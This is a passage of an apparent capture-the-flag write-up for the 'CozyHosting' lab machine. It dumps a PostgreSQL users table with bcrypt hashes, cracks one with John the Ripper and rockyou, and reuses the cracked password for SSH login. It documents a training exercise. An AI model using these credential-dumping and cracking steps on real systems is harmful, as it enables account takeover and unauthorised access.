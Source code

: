 ```shell
    TABLE "hosts" CONSTRAINT "hosts_username_fkey" FOREIGN KEY (username) REFERENCES users(name)

cozyhosting=# SELECT name,password,role FROM users;
name    |                           password                           | role  
-----------+--------------------------------------------------------------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
```

Two users are identified in the users table with relative password hashes:
- kanderson, "`$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim`"
- admin, "`$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm`"

The hashes are saved in a file and JohnTheRipper is used for cracking.

```shell
$ cat hash.txt                                                      
$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
[...]
manchesterunited (?)
```

![](img/cozyhosting14.png)

JtT was able to crack one of the two hashes, specifically that of the user "admin" and his password is "manchesterunited". Using that password for user "josh" gained access in SSH.
